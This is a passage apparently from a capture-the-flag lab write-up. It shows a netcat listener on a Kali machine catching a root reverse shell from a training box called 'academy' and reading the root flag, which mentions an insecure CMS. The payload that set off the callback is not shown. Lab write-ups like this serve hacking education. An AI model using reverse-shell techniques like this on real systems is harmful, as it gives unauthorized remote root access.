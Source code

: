 `CTRL + O` to save then `CTRL + X` to exit

Go back to the netcat listener..

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.152] 38358
bash: cannot set terminal process group (672): Inappropriate ioctl for device
bash: no job control in this shell
root@academy:~# whoami
whoami
root
root@academy:~# cd /root
cd /root
root@academy:~# ls
ls
flag.txt
root@academy:~# cat flag.txt
cat flag.txt
Congratz you rooted this box !
Looks like this CMS isn't so secure...
I hope you enjoyed it.
If you had any issue please let us know in the course discord.

Happy hacking !
```

😎
